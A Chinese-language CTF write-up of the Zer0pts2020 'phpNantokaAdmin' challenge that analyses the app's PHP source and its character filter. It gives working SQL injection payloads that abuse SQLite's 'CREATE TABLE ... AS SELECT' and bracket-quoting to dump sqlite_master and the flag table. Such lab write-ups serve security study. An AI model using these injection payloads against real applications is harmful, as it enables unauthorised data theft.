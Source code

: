 # \[Zer0pts2020]phpNantokaAdmin

## \[Zer0pts2020]phpNantokaAdmin

## 考点

* sqlite3 select特性
* sqlite3建表语法

## wp

题目功能流程如下

![](<../.gitbook/assets/image (30).png>)

填参数，点下一步，最后的请求是向/?page=create发送 POST请求，请求内容如下

```
table_name=test&columns[0][name]=testa&columns[0][type]=INTEGER
```

然后请求/?page=index，来到插入数据的页面

![](<../.gitbook/assets/image (4).png>)

向/?page=insert发送POST请求，内容如下

```
values[]=1&values[]=2&values[]=3
```

然后请求/?page=index

![](<../.gitbook/assets/image (33) (1) (1).png>)

那么后台的语句可能如下

```sql
CREATE TABLE test(
   dummy1 TEXT,
   dummy2 TEXT,
   testa INTEGER,
);

INSERT INTO test (dummy1,dummy2,testa) 
          VALUES ('1', '2', 3);
```

但是`testa`那个字段输入字母也会成功插入

![](<../.gitbook/assets/image (1) (2).png>)

然后找信息，啥都没找到，直接用BUU给的代码吧

三个文件，config.php定义flag位置，`flag_bf1811da`表的`flag_2a2d04c3`字段

util.php存放自定义函数，index.php实现路由和视图功能

先说自定义的函数，`redirect($path)`调用header函数进行重定向页面，`flash($message, $path = '?page=index')`向session中写入信息，`e($string)`把string使用`htmlspecialchars($string, ENT_QUOTES)`进行转义，只编码双引号和单引号，`is_valid($string)`判断输入是否含有如下字符

```
["#'()*,\/\\`-]
```

然后index.php，全部采用pdo的方式操作数据库

如果session中存在database字段，就返回`flag_bf1811da`表和`flag_2a2d04c3`字段

insert部分就直接使用insert语句插入POST的values数组，delete是直接清空session，新建一个空白的session

看新建表的地方

要输入表名和列名，只有表名被强制转换为字符串，然后是对表名和列名的限制

```php
  $table_name = (string) $_POST['table_name'];
  $columns = $_POST['columns'];
  $filename = bin2hex(random_bytes(16)) . '.db';
  $pdo = new PDO('sqlite:db/' . $filename);
  if (!is_valid($table_name)) {
    flash('Table name contains dangerous characters.');
  }
  if (strlen($table_name) < 4 || 32 < strlen($table_name)) {
    flash('Table name must be 4-32 characters.');
  }
  if (count($columns) <= 0 || 10 < count($columns)) {
    flash('Number of columns is up to 10.');
  }
```

最后是SQL语句的拼接

```php
  $sql = "CREATE TABLE {$table_name} (";
  $sql .= "dummy1 TEXT, dummy2 TEXT";
  for ($i = 0; $i < count($columns); $i++) {
    $column = (string) ($columns[$i]['name'] ?? '');
    $type = (string) ($columns[$i]['type'] ?? '');

    if (!is_valid($column) || !is_valid($type)) {
      flash('Column name or type contains dangerous characters.');
    }
    if (strlen($column) < 1 || 32 < strlen($column) || strlen($type) < 1 || 32 < strlen($type)) {
      flash('Column name and type must be 1-32 characters.');
    }

    $sql .= ', ';
    $sql .= "`$column` $type";
  }
  $sql .= ');';
```

最终SQL执行顺序

```
CREATE TABLE `FLAG_TABLE` (`FLAG_COLUMN` TEXT);
INSERT INTO `FLAG_TABLE` VALUES ("FLAG");
CREATE TABLE {$table_name} (dummy1 TEXT, dummy2 TEXT, `$column` $type);
```

可控点就是table\_name、column和type

payload

```
table_name=aaaa+as+select+[sql][&columns%5B0%5D%5Bname%5D=]from+sqlite_master;&columns%5B0%5D%5Btype%5D=INTEGER
```

相当于`CREATE TABLE aaaa as select [sql] from sqlite_master;`

![](<../.gitbook/assets/image (24) (1).png>)

payload

```
table_name=aaaa+as+select+[flag_2a2d04c3][&columns%5B0%5D%5Bname%5D=]from+flag_bf1811da;&columns%5B0%5D%5Btype%5D=INTEGER
```

相当于`CREATE TABLE aaaa as select [flag_2a2d04c3] from flag_bf1811da;`

![](<../.gitbook/assets/image (11) (1).png>)



## 小结

1. sqlite3在select时，如果列使用`[]`、`""`、` `` `包裹时会自动忽略这些符号之后的列名
2. sqlite3可以使用`create table ... as select ... from ...` 来复制表
